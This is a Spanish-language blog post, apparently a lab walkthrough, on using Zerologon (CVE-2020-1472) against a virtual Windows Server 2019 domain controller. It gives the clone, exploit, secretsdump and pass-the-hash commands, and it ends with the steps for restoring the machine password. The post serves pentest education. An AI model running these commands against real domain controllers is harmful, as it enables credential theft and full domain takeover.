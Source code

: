 ```yaml
---
layout: single
title: Zerologon en Windows Server 2019
excerpt: "En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del
dominio. Quiero recalcar que para realizar éste ataque no necesitamos
credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta
vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el
hash de la contraseña del administrador del dominio utilizaremos la conocida
técnica de pass the hash para obtener acceso al sistema con la cuenta del
administrador."
date: 2021-03-13
classes: wide
header:
  teaser: /assets/images/Zerologon/zerologon.jpg
  teaser_home_page: true
categories:
  - Windows
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


![](/assets/images/Zerologon/zerologon.jpg)

En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del dominio. Quiero recalcar que para realizar éste ataque no necesitamos credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el hash de la contraseña del administrador del dominio utilizaremos la conocida técnica de pass the hash para obtener acceso al sistema con la cuenta del administrador.

Utilizaremos una máquina virtual con Linux para la parte del atacante y otra
con Windows Server 2019 y Active Directory para la víctima.

![](/assets/images/Zerologon/windows-server.png)

En hackplayers explican en profundidad la vulnerabilidad.

[https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html](https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html)

Citando el artículo de hackplayers:

Zerologon se aprovecha de una vulnerabilidad en el servicio Netlogon, que se utiliza para diversas tareas relacionadas con la autenticación de usuarios y máquinas en controladores de dominio.

Netlogon utiliza un protocolo criptográfico basado en AES-CFB8 que define IVs fijos de 16 bytes de ceros en lugar de IVs aleatorios. Con esto, dada una clave aleatoria, hay una probabilidad de 1 entre 256 de que el cifrado AES de un bloque de todo ceros de como salida todo ceros. Dado que las cuentas de equipo no se bloquean después de intentos de inicio de sesión no válidos, simplemente podemos intentarlo varias veces hasta que obtengamos esa clave y la autenticación sea exitosa. La media esperada de intentos necesarios será de 256, lo que en la práctica sólo lleva unos tres segundos. Con este método, podemos iniciar sesión como cualquier ordenador del dominio. Esto incluye controladores de dominio de respaldo e incluso el propio controlador de dominio de destino. Conseguiremos cambiar la contraseña del equipo controlador de dominio a una cadena vacía (todo ceros) para obtener privilegios y poder obtener los hashese de todos los usuarios de Active Directory. Después de vulnerar el equipo podemos volver a cambiar la contraseña de la cuenta de equipo controlador de dominio para que todo vuelva a funcionar correctamente. Ahora el DC vuelve a comportarse normalmente y el atacante se ha convertido en administrador de dominio.

## Testeando si el servidor es vulnerable

La empresa Secura publicó una herramienta para identificar si una máquina es
vulnerable a Zerologon en un repositorio de github [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Nos clonamos la herramienta con 
```bash
git clone https://github.com/SecuraBV/CVE-2020-1472.git
``` 
y la lanzamos contra nuestro controlador de dominio virtualizado, que se llama DC01 y tiene la ip
192.168.160.131

![](/assets/images/Zerologon/testing.png)

Y vemos que nos dice que es vulnerable a zerologon. Ésta vulnerabilidad afecta
a todas las versiones de Windows Server desde la 2008 R2, siempre que no
cuenten con las últimas actualizaciones instaladas. Microsoft sacó un parche en agosto, pero por lo visto había que editar el registro a mano para asegurarse de que el sistema quedaba completamente parcheado. En concreto la clave del registro es FullSecureChannelProtection y tiene que tener un valor de “1”. Se supone que en febrero tenía que salir la actualización que parcheaba definitivamente la vulnerabilidad, con lo cual deben de haber muchos servidores a dia de hoy que siguen siendo vulnerables.

El nombre del servidor y el del dominio se pueden averiguar rápidamente con
crackmapexec.

![](/assets/images/Zerologon/info.png)

## Explotando la vulnerabilidad y accediendo al sistema

Existen varias pruebas de concepto que explotan zerologon pero yo en este caso
voy a utilizar ésta: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Igual que antes, nos clonamos el repositorio con 
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

![](/assets/images/Zerologon/clone.png)

Y ahora ejecutamos el script en python, pero antes vamos a crear un entorno
virtual con virtualenv para que no nos den problemas los scripts de impacket.

Para ello ejecutamos 
```bash
virtualenv zerologon
source zerologon/bin/activate
```

Ahora nos vamos al directorio opt y nos clonamos la suite de herramientas de
impacket

```bash
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
sudo pip install .
```

Ahora si, ejecutamos el exploit y vemos que funciona y nos dice Exploit
complete!

![](/assets/images/Zerologon/exploit.png)

Ahora ejecutamos el script de impacket secretsdump para obtener los hashes de
las contraseñas. Le pasamos un hash que corresponde a todo ceros para la cuenta
de máquina del controlador del dominio, por eso ponemos dom01.local/DC01$ con
un signo de dolar al final.

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'dom01.local/DC01$@192.168.160.131'
```

![](/assets/images/Zerologon/secrets.png)

Obtenemos los hashes de las cuentas de usuario, en este caso es solo la del
administrador, la del invitado y la de krbtgt porque no hay más usuarios, pero si huviera más nos los mostraría
también.

Para usar pass the hash podemos utilizar wmiexec y obtendremos una sesión de
cmd de la cuenta del administrador del dominio.

![](/assets/images/Zerologon/pth.png)

Vemos que al ejecutar whoami nos devuelve dom01\administrador. Estamos dentro
de la máquina con la cuenta del administrador del dominio. En éste punto
podemos hacer lo que queramos, por ejemplo crearnos un usuario administrador
oculto para que no se vea desde windows, activar el escritorio remoto editando
el registro con los comandos reg y conectarnos por RDP al servidor.

Además teniendo en cuenta que hay una GPO que se aplica a cualquier equipo al
unirlo al dominio que añade al administrador del dominio al grupo de
administradores local, podremos acceder a cualquier equipo de la red que esté
unido al dominio.

## Restableciendo la contraseña original

No nos olvidemos de que tenemos que restablecer la contraseña de la cuenta
de quipo para que todo funcione correctamente a nivel de active directory. Esto
es debido a que hemos cambiado la contraseña de la cuenta del equipo a nivel de
active directory, pero en la sam local sigue estando la original.

Para restablecerla usaremos de nuevo secretsdump pero esta vez con el hash del
administrador, lo que nos devolverá la *plain_password_hex* original para poder
restablecerla con el script restorepassword.py

```bash
secretsdump.py dom01.local/administrador@192.168.160.131 -target-ip 192.168.160.131 -hashes :57987b38d5ba54e02daa2d5d7579765b
```

Nos devuelve entre otras cosas la plain_password_hex de la cuenta de equipo en
la sam local.

```
DOM01\DC01$:plain_password_hex:fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

Solo quedaría ejecutar el script para restablecer la contraseña local de la
cuenta de equipo.

```bash
sudo python3 restorepassword.py dom01.local/DC01@DC01 -target-ip 192.168.160.131 -hexpass fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

![](/assets/images/Zerologon/restore.png)

Para comprobar si todo ha ido bien podemos ejecutar de nuevo nuestra primera
ejecución de secretsdump y esta vez debería dar error al no estar la contraseña
de la cuenta del equipo vacía.

![](/assets/images/Zerologon/error.png)

Y efectívamente, todo ha vuelto a la normalidad, pero seguimos teniendo acceso al equipo como administrador del dominio porque seguimos teniendo el hash de la contraseña de la cuenta del administrador para hacer pass the hash.

```baah
wmiexec.py -hashes :57987b38d5ba54e02daa2d5d7579765b Administrador@192.168.160.131
```

![](/assets/images/Zerologon/final.png)
